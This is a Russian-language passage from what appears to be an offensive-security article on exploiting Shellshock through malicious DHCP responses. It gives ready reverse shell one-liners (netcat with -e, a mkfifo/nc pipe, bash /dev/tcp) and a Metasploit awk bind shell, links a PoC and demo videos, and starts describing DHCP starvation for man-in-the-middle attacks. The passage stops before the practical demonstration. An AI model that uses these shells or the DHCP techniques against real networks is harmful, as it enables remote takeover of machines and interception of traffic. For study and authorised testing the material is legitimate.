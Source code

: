 Для reverse shell будем использовать [стандартный shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) с использованием nc:

```bash
nc -e /bin/sh <IP> <PORT> 2>&1 &
rm /tmp/f 2>/dev/null;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f &
```

Для reverse shell также можно использовать команду [отсюда](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell):

```bash
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Для bind shell будем использовать **/cmd/unix/bind_awk** из состава **Metasploit**, как один из наиболее коротких:

```bash
awk 'BEGIN{s="/inet/tcp/<PORT>/0/0";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}' &
```

### [PoC](https://github.com/Vladimir-Ivanov-Git/raw-packet)

### Видео:

[![CentOS 6.5](http://img.youtube.com/vi/-B_U9f_Uofk/0.jpg)](http://www.youtube.com/watch?v=-B_U9f_Uofk "DHCP shellshock on CentOS 6.5")

[![Debian 7.5.0](http://img.youtube.com/vi/u-GXXyQnSVg/0.jpg)](http://www.youtube.com/watch?v=u-GXXyQnSVg "DHCP shellshock on Debian 7.5.0")

[![Ubuntu 14.04](http://img.youtube.com/vi/a6gijZr7Ux0/0.jpg)](http://www.youtube.com/watch?v=a6gijZr7Ux0 "DHCP shellshock on Ubuntu 14.04")

## Еще ~~немного~~ про DHCP

Ни в коем случае DHCP нельзя рассматривать исключительно как метод получения **RCE** на клиентах, потому что, во-первых, мы должны ответить быстрее реального DHCP-сервера в сети, и, во-вторых, на клиенте должен быть shellshock, а это маловероятно. Протокол DHCP в первую очередь необходимо рассматривать как метод осуществления **MITM**.

Поговорим о том, как ответить на любой запрос быстрее DHCP-сервера. Самый очевидный вариант — быть ближе к клиенту по расположению в сети, и еще наше железо и алгоритм должны работать быстрее. Однако, в большинстве случаев это не так.

Есть второй вариант: нужно нагрузить сервер, но при этом не занимать новые IP-адреса в сети, чтобы не исчерпать весь пул свободных адресов (такая атака называется DHCP starvation). Как вы уже поняли, необходимо отправлять большое количество запросов **DHCPDISCOVER**, поскольку сервер должен обработать каждый из них и отправить в ответ **DHCPOFFER**. Однако, в рамках данной транзакции **DHCPREQUEST** мы отправлять не будем, поэтому сервер будет его ждать. IP-адрес не будет считаться выделенным, потому что процедура получения IP не завершена.

Давайте посмотрим, как это выглядит на практике.
